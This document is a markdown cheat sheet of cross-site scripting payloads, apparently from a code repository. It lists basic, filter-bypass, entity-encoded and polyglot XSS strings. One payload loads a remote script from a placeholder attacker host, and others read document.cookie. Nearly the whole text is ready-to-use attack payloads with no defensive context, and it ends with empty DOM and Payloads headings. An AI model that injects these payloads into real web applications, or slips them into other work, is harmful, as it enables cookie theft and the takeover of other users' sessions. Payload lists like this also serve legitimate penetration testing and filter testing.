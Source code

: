 Cross Site Scripting {XSS}
==========================

# Reflected && Persistent/Stored

## Basic Payloads

`<script SRC=http://attacker.domain.com/payload.js></script>`

`<img SRC="javascript:alert('XSS');">`

`<iframe src="javascript:alert(`xss`)">`

`<body oninput=javascript:alert(1)><input autofocus>`

## Filter Bypass Payloads

### No Quotes && Semicolon

`<IMG SRC=javascript:alert('XSS')>`

### Case Filtering

`<IMG SRC=JaVaScRiPt:alert('XSS')>`

### HTML Entities

`<IMG SRC=javascript:alert(&quot;XSS&quot;)>`

### Grave Accent Obfuscation

+ Hide double and single quotes from filter with grave accent wrapping
```
<IMG SRC=`javascript:alert("Hello, 'XSS'")`>
```

### Malformed Link Tags `<a>`

```
\<a onmouseover="alert(document.cookie)"\>attacker.domain.com/payload.js\</a\>
```

#### Chrome Edgecase

```
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

### Malformed `<img>` tags

`<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>`


## Encoded Payloads


### JS alert encode

```
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

```

### HTML Decimal Character Refrences

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

```

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

```

### HTML Hexidecimal Character Refrences

```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```


## Polyglots

```
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```
jaVasCript:/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/(/* */oNcliCk=alert() )//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3ciframe/<iframe/oNloAd=alert()//>\x3e
```

# DOM


# Payloads